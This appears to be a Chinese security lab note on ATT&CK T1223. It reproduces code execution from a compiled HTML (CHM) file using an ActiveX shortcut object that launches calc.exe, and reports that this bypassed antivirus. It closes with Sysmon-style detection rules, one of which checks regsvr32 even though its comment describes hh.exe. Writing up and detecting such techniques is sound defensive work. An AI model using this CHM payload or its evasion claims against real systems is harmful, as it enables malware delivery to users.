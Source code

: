 # T1223-Compiled HTML File

CHM文件是各种内容的压缩编译，例如HTML文档，图像和脚本/ Web相关的编程语言，如VBA，JScript，Java和ActiveX。内容使用HTML Help executable program（hh.exe）加载的Internet Explorer浏览器基础组件显示。

攻击者可能滥用此技术来隐藏恶意代码。把嵌入payload的自定义CHM文件可以传送给受害者，然后由[用户执行](https://attack.mitre.org/techniques/T1204)触发。CHM执行还可以绕过旧版和/或未修补系统上的应用程序白名单，这些系统没有监控通过hh.exe执行二进制文件。

## 命令执行

### 技术复现

新建一个HTML文件并填入一下内容，使用Easy CHM工具编译成CHM文件

![1568897478436](T1223-Compiled HTML File.assets/1568897478436.png)

```
<!DOCTYPE html><html><head><title>CHM CODE EXEC</title></head><body>
command exec
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command"value="ShortCut">
<PARAM name="Button"value="Bitmap::shortcut">
<PARAM name="Item1"value=',calc.exe'>
<PARAM name="Item2"value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

### 结果验证

绕过windows defender执行命令

![1568897910461](T1223-Compiled HTML File.assets/1568897910461.png)

360静态查杀结果

![1568898579543](T1223-Compiled HTML File.assets/1568898579543.png)

360动态防御被绕过

![1568898662359](T1223-Compiled HTML File.assets/1568898662359.png)



## 尝试使用CHM执行远控

尝试通过cmd调用powershell、通过regsvr32执行远程代码、通过hh释放本地文件加载均被拦截

### 结果验证

![1568906495368](T1223-Compiled HTML File.assets/1568906495368.png)





## 威胁取证

虽然防护软件会拦截一些命令的执行，但是在执行calc的时候并没有进行拦截操作，猜测是使用白名单限制，此种方法存在被白名单绕过的风险，在不变更攻击原理的情况下不影响以下规则的检测效果

**进程特征：**（级别：高）

```
# hh.exe作为父进程去创建其他进程，是一种可疑行为
ParentImage contians 'regsvr32.exe'
```

![1568900160049](T1223-Compiled HTML File.assets/1568900160049.png)

**加载项特征：**（级别：高）

```
# 在执行payload创建COM对象时会使用Jscript脚本，这样系统就会调用脚本程序
eventid = 7 AND ImageLoaded contains 'jscript'
```

![1568900621786](T1223-Compiled HTML File.assets/1568900621786.png)



## 参考

https://attack.mitre.org/techniques/T1223/

https://www.cnblogs.com/ssooking/articles/6171247.html


